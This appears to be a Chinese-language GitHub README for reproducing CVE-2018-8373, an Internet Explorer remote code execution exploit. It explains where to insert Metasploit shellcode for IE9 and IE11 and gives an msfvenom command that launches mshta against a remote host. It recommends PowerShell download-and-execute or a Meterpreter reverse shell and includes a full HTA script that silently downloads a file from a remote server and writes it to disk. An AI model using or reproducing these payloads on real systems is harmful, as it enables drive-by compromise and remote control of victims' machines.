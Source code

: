 # CVE-2018-8373 REC


`怎样修改Exploit`
    
    BeforeIE9是可以对IE9之前的版本进行利用，但是在有些X64位机器上不行
    
    BeforeIE11是比较好用的，可以针对IE11之前的版本进行利用
    
    IE11 修改与CVE-2018-8174修改差不多  在165行左右 填充msf生成的payload即可

`怎样使用`
    
    IE9可以直接执行命令 调用Powershell下载执行即可
    
    IE11可以使用msf的powershell meterpreter模块反弹 也可以将下载命令使用msf编码执行

`复现注意事项`
    
    我的知乎专栏 MSF文章
    https://zhuanlan.zhihu.com/p/40091321
    生成 执行命令的payload 这个位置生成的payload是用来填充的
    msfvenom -p windows/exec cmd='mshta http://192.168.0.100:6666/hFmjv' -f js_le exitfunc=thread 
    
    填充payload的时候要注意，与8174有一点不同
    
    就是不是全填充而是在 原来的地方要修改  具体看修改  
    
    要保留如下字符串 然后在这个字符串之前填充  不然是无法复现成功的
   
    %u4100%u0065%u0000%u0000%u0000%u0000%u0000%ucc00%ucccc%ucccc%ucccc%ucccc
    
    我从官网即时下载的IE11也存在问题，所以危害还是很大的。。
    
    
# 下载文件
    
    
    <html>
    <head>
    <script>
    var Object = new ActiveXObject("MSXML2.XMLHTTP");
    Object.open("GET","http://192.168.206.101/demo.php.zip",false);
    Object.send();
    if (Object.Status == 200)
    {
        var Stream = new ActiveXObject("ADODB.Stream");
        Stream.Open();
        Stream.Type = 1;
        Stream.Write(Object.ResponseBody);
        Stream.SaveToFile("C:\\demo.zip", 2);
        Stream.Close();
    }
    window.close();
    </script>
    <HTA:APPLICATION ShowInTaskbar = No>
    WINDOWSTATE = "minimize">
    </head>
    <body>
    </body>
    </html>
    
    

## 最后感谢看雪大佬提供的EXP。



